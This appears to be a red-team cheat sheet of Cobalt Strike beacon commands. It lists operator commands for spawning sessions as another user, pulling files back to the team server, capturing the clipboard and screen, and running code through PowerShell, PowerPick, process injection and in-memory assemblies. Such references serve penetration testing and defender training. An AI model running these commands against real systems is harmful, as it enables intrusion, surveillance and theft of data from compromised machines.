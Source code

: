 Generate new session from beacon
- Spawn session as a different user
```cobalt strike
spawn <arch> <type>
spawnas <domain>\<user> <password>
```
Downloading files
- Files are downloaded to team server first > Sync Files to download to machine
```cobalt
download <FILE>
```
View clipboard content
```cobalt
clipboard
```
Registry information
```cobalt
reg query <REGISTRY_KEY>
```
Screenshot (using PrtSc)
```cobalt
printscreen
```
Screenshot (using DLL)
```cobalt
screenshot
```
Screenwatch (tied to beacon sleep time)
```cobalt
screenwatch [pid] <x86|x64>
```
VNC (Explore > Desktop (VNC))
```cobalt
desktop high
```

### Command Shell
Run with cmd.exe
```cobalt
shell whoami /user
```
Execute program directly
```cobalt
run whoami /user
```
Run with PowerShell
- cmdlet and arguments are converted into encoded command before execution
```cobalt
powershell <cmdlet> <arguments>
```
Run with PowerPick
- using unmanaged PowerShell without using PowerShell.exe
```cobalt
powerpick <cmdlet> <args>
```
Run with PsInject
- Inject unmanaged DLL into existing process 
```cobalt
psinject <pid> <arch> <cmdlet> <args>
```
Importing PowerShell script
- Beacon can only hold one import script
```cobalt
powershell-import <PATH_TO_LOCAL_FILE>
```
Run .NET Framework program
- Only .NET Framework not .NET Core/.NET
```cobalt
execute-assembly
```
Run BOF
```cobalt
inline-execute
```